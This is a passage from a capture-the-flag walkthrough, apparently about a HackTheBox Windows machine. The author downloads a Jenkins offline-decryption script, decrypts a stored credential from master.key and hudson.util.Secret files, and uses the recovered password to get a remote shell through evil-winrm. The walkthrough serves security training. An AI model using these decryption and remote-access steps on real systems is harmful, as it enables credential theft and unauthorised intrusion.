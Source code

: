 

    oxdf@hacky$ wget https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py
    --2022-02-27 18:47:56--  https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 2606:50c0:8000::154, 2606:50c0:8001::154, 2606:50c0:8002::154, ...
    Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 6875 (6.7K) [text/plain]
    Saving to: ‘jenkins_offline_decrypt.py’

    jenkins_offline_decrypt.py                           100%[=====================================================================================================================>]   6.71K  --.-KB/s    in 0s      

    2022-02-27 18:47:57 (14.0 MB/s) - ‘jenkins_offline_decrypt.py’ saved [6875/6875]

    oxdf@hacky$ python jenkins_offline_decrypt.py 
    Usage:
            jenkins_offline_decrypt.py <jenkins_base_path>
    or:
            jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
    or:
            jenkins_offline_decrypt.py -i <path> (interactive mode)
    oxdf@hacky$ python jenkins_offline_decrypt.py master.key hudson.util.Secret config.xml 
    c1cdfun_d2434



Either way, the password is "c1cdfun_d2434".

### WinRM

Before logging into Jenkins, I'll try this password over
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm):



    oxdf@hacky$ evil-winrm -i 10.10.11.132 -u oliver -p c1cdfun_d2434

    Evil-WinRM shell v3.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\oliver\Documents>



It works!

I can grab `user.txt` as well:



    *Evil-WinRM* PS C:\Users\oliver\desktop> type user.txt
    30a27c61************************



